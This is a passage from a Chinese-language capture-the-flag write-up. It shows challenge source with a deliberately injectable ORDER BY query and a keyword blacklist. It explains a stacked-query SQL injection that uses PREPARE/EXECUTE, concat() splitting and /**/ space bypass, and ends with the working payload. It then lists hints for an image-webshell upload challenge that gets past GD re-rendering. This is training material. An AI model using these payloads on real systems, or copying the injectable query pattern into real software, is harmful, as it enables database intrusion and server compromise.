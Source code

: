 ```
    for s in blacklist:
        if s.lower() in field.lower():
            return s + ' are banned'

    if not re.match(r"id|name|email", field):
        field = 'id'

    with conn.cursor() as cursor:
        cursor.execute('SELECT * FROM userinfo order by %s' % field)
        res = cursor.fetchall()

    return render_template('index.html', res=res)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=True)
```

可以看到过滤了select、table、等，还去掉了空格

结合出题人的hint，可知要使用预处理的方法来执行sql命令

这两个博客讲的很详细：[SQL注入进阶之路-针对堆叠注入的研究 - mi2ac1e - 博客园 (cnblogs.com)](https://www.cnblogs.com/tysec/p/15161004.html)

[记录mysql 存储过程中通过使用PREPARE、EXECUTE 预处理语句实现执行动态SQL语句 - rhyswang - 博客园 (cnblogs.com)](https://www.cnblogs.com/camefor/p/15740220.html)

总的来说预处理的步骤👇

```
#1  设置用户变量的值
set @code= 。。。。  ;

#2  预处理,将用户变量code的值赋给p
prepare p from @code ;

#3  执行预处理后的语句
execute p;
```

这里由于有黑名单，我们就只有通过concat来进行字符串的拼接

空格有/\*\*/来绕过

所以最后的payload👇

```
set/**/@pr1=concat('selec','t/**/fla','g/**/from/**/fl','ag');
prepare/**/p/**/from/**/@pr1;EXECUTE /**/p;
```

### ez\_upload

hint👇

```
Hint 1: Docker 环境: php:7.4-apache

Hint 2: 代码中的 imagecreatefromXXX 和 imageXXX 函数来源于 PHP 的 GD 库

Hint 3: GD 库会对图片进行二次渲染

Hint 4: 如果上传正确的图片马后出现报错请将 BurpSuite 设置中的 Character Sets 改回 Recognize automatically based on message headers (例如 https://blog.csdn.net/weixin_44937683/article/details/127516562 这篇文章就是个错误示范 需要把 Character Sets 改回去)

Hint 5: 你需要在网上找到一些针对 gif/png/jpg 格式的二次渲染绕过脚本 另外注意代码并没有限制上传文件的后缀
```
